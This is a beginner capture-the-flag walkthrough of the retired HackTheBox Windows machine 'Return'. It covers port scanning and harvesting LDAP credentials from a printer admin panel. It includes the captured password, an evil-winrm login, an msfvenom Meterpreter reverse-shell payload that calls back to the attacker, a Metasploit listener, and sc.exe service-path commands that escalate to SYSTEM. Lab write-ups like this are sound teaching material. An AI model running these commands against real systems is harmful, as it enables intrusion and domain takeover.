


# 🧠 HackTheBox - Return Walkthrough


---

##  Table of Contents

- [🧠 HackTheBox - Return Walkthrough](#-hackthebox---return-walkthrough)
  - [Table of Contents](#table-of-contents)
  - [Overview](#overview)
  - [About](#about)
  - [TL;DR](#tldr)
  - [SETUP / NOTES](#setup--notes)
  - [RECON](#recon)
  - [ENUMERATION](#enumeration)
  - [EXPLOIT](#exploit)
  - [PRIVILEGE ESCALATION](#privilege-escalation)
  - [LESSONS LEARNED](#lessons-learned)
  - [References](#references)

---

##  Overview

**Machine: Return**

**Difficulty: Easy**

**OS: Windows**

**Points: 0**

**Status: Retired**

---

##  About

This walkthrough covers the full exploitation of the retired HackTheBox machine 'Return'. It is aimed at beginners but also covers privilege escalation steps and explains key tools and credentials used throughout the attack.

---

##  TL;DR

- Scan and enumerate ports (Nmap, enum4linux).

- nteract with the printer web panel to capture credentials via LDAP listener.

- Connect with Evil-winRM using captured creds (svc-printer user).

- Exploit Server Operators group by uploading a Meterpreter shell and modifying service binary path.

- Use Metasploit to catch SYSTEM shell and grab root flag.

## SETUP / NOTES
- Nmap, Enum4linux, Netcat, Evil-winRM, Metasploit.
---

##  RECON

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-04 16:39 UTC
Nmap scan report for 10.129.102.16
Host is up (0.012s latency).

PORT      STATE SERVICE       VERSION
🟢[53/tcp    open  domain        Simple DNS Plus
🟢[80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
🟢[88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-04 16:58:44Z)
🟢[135/tcp   open  msrpc         Microsoft Windows RPC
🟢[139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
🟢[389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
🟢[445/tcp   open  microsoft-ds?
🟢[464/tcp   open  kpasswd5?
🟢[593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
🟢[636/tcp   open  tcpwrapped
🟢[3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
🟢[3269/tcp  open  tcpwrapped
🟢[5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
🟢[9389/tcp  open  mc-nmf        .NET Message Framing
🟢[47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
🟢[49664/tcp open  msrpc         Microsoft Windows RPC
🟢[49665/tcp open  msrpc         Microsoft Windows RPC
🟢[49666/tcp open  msrpc         Microsoft Windows RPC
🟢[49667/tcp open  msrpc         Microsoft Windows RPC
🟢[49671/tcp open  msrpc         Microsoft Windows RPC
🟢[49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
🟢[49675/tcp open  msrpc         Microsoft Windows RPC
🟢[49677/tcp open  msrpc         Microsoft Windows RPC
🟢[49680/tcp open  msrpc         Microsoft Windows RPC
🟢[49697/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
|_clock-skew: 18m34s
| smb2-time:
|   date: 2025-10-04T16:59:42
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.54 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-04 16:41 UTC
Nmap scan report for 10.129.102.16
Host is up (0.018s latency).
Not shown: 92 closed udp ports (port-unreach)
PORT     STATE         SERVICE
🟢53/udp   open          domain
🟢88/udp   open          kerberos-sec
🟢123/udp  open          ntp
🟢137/udp  open|filtered netbios-ns
🟢138/udp  open|filtered netbios-dgm
🟢500/udp  open|filtered isakmp
🟢4500/udp open|filtered nat-t-ike
🟢5353/udp open|filtered zeroconf

Nmap done: 1 IP address (1 host up) scanned in 138.69 seconds
```
Based on our `nmap` scan we see that the target is a Windows machine with port 80 IFS `Internet Information Services`, 455 `SMB` and `Windows Remote Management` being available on port 5985.

---

##  ENUMERATION

Lets enumerate further with `enum4linux`! A great tool that helps us get more information from Windows and Samba systems.


We get some useful information back, like that the domain name is `return` and the host is part of a domain not a workgroup. We will investigate the website before we take another look somewhere else.


Nothing much to see here other then a picture of a printer. It's not interactable so let's just hop in the `Settings` section to see if there is something usefull there.


We are greeted by the printer settings. `Server Address` and `Server Port` makes me think we can connect to it with a listener open `Netcat - nc`. Knowing the username `svc-printer` to the printer is usefull!

These devices store `LDAP` and `SMB` credentials, in order for the printer to query the user list from Active
Directory. Let's set up a listener on port 389 `LDAP` and ofcourse change the `Server Address` to your ip `tun0`.


We have recieved the credentials from the printer!

`1edFg43012!!`

---

##  EXPLOIT

With that being ours now, we can try to connect to the service using `Evil-winRM`. with classifying the `-i` target ip, `-u` username being the svc-printer and ofcourse `-p` password being `1edFg43012!!`

`evil-winrm -i 10.129.102.16 -u svc-printer -p '1edFg43012!!'`


We have connection to the service!

Let's go to Desktop if the `userflag` is there.


And ofcourse the userflag is located in Desktop.

---

##  PRIVILEGE ESCALATION

Enumerating further with
 - `net user svc-printer`
we see that the group memberships reveals that `svc-printer` is part of `Server Operators`.


More information about this is that members of this group can start and stop services. With that in mind we will modify a service binary path to obtain a reverse shell.

The best and `stable` way is to use `msfvenom`. We will use this to generate a `meterpreter reverse shell executable payload` for the remote host.

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe > shell-x86.exe`

Using `tun0` will set your ip automatically.


Great, we have made a shell! With the current `Evil-winRM` shell we have, we can upload the .exec to the remote host.


Next, we will use the Metasploit console to configure a listener for a reverse shell.

`msfconsole`

Select the `multi/handler` module which is used to listen from a compromised system.

`exploit/multi/handler`


Now we will set the payload as `windows/meterpreter/reverse_tcp`, this will allows for a reverse `TCP` connection.

`set PAYLOAD windows/meterpreter/reverse_tcp`

Now set up your HOST and PORT.

```bash
set LHOST tun0
set LPORT 4444
```

After that type `run`.



We will go back to our `Evil-winRM` connection. We will use our shell and modify the service binary path to obtain a reverse shell.

`sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"`


Succes!

Having our `Metasploit` listener up, we have a few things left to do. Let's restart vss

`sc.exe stop vss`
`sc.exe start vss`


Quickly after it's connected to your listener, type `ps` to list the running processes. Choose an appropriate process which is running as `NT AUTHORITY\SYSTEM`

After you have found the `PID` which is all the way on the left, type `migrate <PID>`.

Now that you have a connection, type `shell` to spawn a shell and grab the root flag.


Doing `cd ..` untill we are at `C:` we can navigate to `\Users\Administrator\Desktop` and find the root flag there.




Pwned!


---

## LESSONS LEARNED

- Always check memberships of service accounts.

- Network devices can be leveraged to gain domain credentials.

- Proper segmentation and least privilege are critical in domain environments.

## References
- Nmap: https://nmap.org/

- Enum4linux: https://github.com/CiscoCXSecurity/enum4linux

- Evil-winRM: https://github.com/Hackplayers/evil-winrm

- Metasploit: https://www.metasploit.com/

- HackTheBox: https://hackthebox.com/
